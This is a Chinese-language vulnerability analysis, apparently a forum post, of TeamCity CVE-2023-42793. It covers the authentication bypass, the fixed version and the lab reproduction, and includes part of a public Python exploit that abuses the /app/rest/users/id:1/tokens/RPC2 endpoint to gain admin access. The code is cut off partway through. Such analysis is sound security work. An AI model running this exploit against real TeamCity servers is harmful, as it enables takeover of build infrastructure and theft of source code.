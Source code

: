 一、漏洞介绍
------

TeamCity 是一款持续集成和软件交付 (CI/CD) 解决方案。该漏洞是由于对服务器 API 的访问控制不足造成的，允许未经身份验证的攻击者访问管理面板。

软件开发公司面临风险。

利用该漏洞，攻击者可以通过网络访问 TeamCity 服务器，获取项目源代码，并通过在项目构建任务执行代理上执行任意代码，对基础架构发起进一步攻击。该漏洞可能会给供应商带来不可接受的网络安全事件。

根据供应商的建议，要修复该漏洞，应将 TeamCity 服务器升级到 2023.05.4 版。 要降低与该漏洞相关的风险，应安装供应商的补丁插件。

二、漏洞复现
------

软件下载：<https://www.jetbrains.com/teamcity/download/other.html>

我这里下载了：[2023.05.4 - Windows (exe)](https://download.jetbrains.com/teamcity/TeamCity-2023.05.4.exe)和[2023.05.3 - Windows (exe)](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe)，5.3版本用来复现漏洞，5.4版本用来代码对比，看看修改了哪里。

安装过程这里就不行了，执行，然后在网页配置就可以了。

这里分析其中的一个[python poc脚本(创建管理员用户)](https://github.com/H454NSec/CVE-2023-42793)，脚本跑完创建了一个新的管理员用户。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-6b937829e84e22377ea19e7228fa2224c698eb6b.png)

使用账号能够成功登陆

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-2e18f9cf54366e0d68e3e0d1e057f73f50611b23.png)

这个poc的代码流程也很简单，删除用户token-创建用户token-创建用户

```python
class CVE_2023_42793:
    def __init__(self):
        self.url = ""
        self.session = requests.session()

    def username(self):
        name = "H454NSec"
        random_id = random.randint(1000, 9999)
        return f"{name}{random_id}"

    def delete_user_token(self, url):
        self.url = url
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept-Encoding": "gzip, deflate"
            }
        try:
            response = self.session.delete(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
            if response.status_code == 204 or  response.status_code == 404:
                self.create_user_token()
        except Exception as err:
            pass

    def create_user_token(self):
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Accept-Encoding": "gzip, deflate"
            }
        try:
            response = self.session.post(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
```